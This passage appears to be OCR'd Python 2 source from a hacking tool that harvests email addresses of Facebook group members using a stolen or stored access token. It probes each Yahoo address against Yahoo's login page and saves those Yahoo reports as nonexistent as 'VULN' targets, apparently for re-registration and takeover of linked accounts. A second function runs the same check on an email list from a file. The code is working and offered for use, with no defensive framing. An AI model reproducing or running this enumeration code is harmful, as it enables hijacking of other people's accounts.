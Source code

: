 		z = json.loads(links.text)
		try:
			mail = z['email']
			yahoo = re.compile(r'@.*')
			otw = yahoo.search(mail).group()
			if 'yahoo.com' in otw:
				br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
				br._factory.is_html = True
				br.select_form(nr=0)
				br["username"] = mail
				klik = br.submit().read()
				jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')
				try:
					pek = jok.search(klik).group()
				except:
					continue
				if '"messages.ERROR_INVALID_USERNAME">' in pek:
					save.write(mail + '\n')
					print("\033[1;97m[ \033[1;92mVULN✓\033[1;97m ] \033[1;92m" +mail+" \033[1;97m=>"+nama)
					berhasil.append(mail)
		except KeyError:
			pass
	print 42*"\033[1;97m═"
	print '\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mDone \033[1;97m....'
	print"\033[1;91m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(berhasil))
	print"\033[1;91m[+] \033[1;92mFile saved \033[1;91m:\033[1;97m out/GrupMailVuln.txt"
	save.close()
	raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
	menu_yahoo()
		
##### YAHOO FILE #####
def yahoolist():
	global toket
	os.system('reset')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(0.01)
		login()
	try:
		os.mkdir('out')
	except OSError:
		pass
	os.system('reset')
	print logo
	files = raw_input("\033[1;91m[+] \033[1;92mFile path \033[1;91m: \033[1;97m")
	try:
		total = open(files,"r")
		mail = total.readlines()
	except IOError:
		print"\033[1;91m[!] File not found"
		raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
		menu_yahoo()
	mpsh = []
	jml = 0
	jalan('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
	save = open('out/FileMailVuln.txt','w')
	print 42*"\033[1;97m═"
	mail = open(files,"r").readlines()
	for pw in mail:
		mail = pw.replace("\n","")